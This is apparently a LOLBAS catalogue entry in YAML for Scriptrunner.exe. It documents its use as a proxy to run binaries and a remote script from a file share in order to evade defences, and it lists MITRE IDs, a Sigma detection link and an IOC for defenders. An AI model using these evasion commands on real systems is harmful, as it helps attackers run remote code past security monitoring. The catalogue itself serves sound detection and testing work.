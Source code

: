 ```yaml
---
Name: Scriptrunner.exe
Description: Execute binary through proxy binary to evade defensive counter measures
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Scriptrunner.exe -appvscript calc.exe
    Description: Executes calc.exe
    Usecase: Execute binary through proxy binary to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
    Description: Executes calc.cmd from remote server
    Usecase: Execute binary through proxy binary from external server to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: Remote
      - Execute: CMD
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_servu_susp_child_process.yml
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```

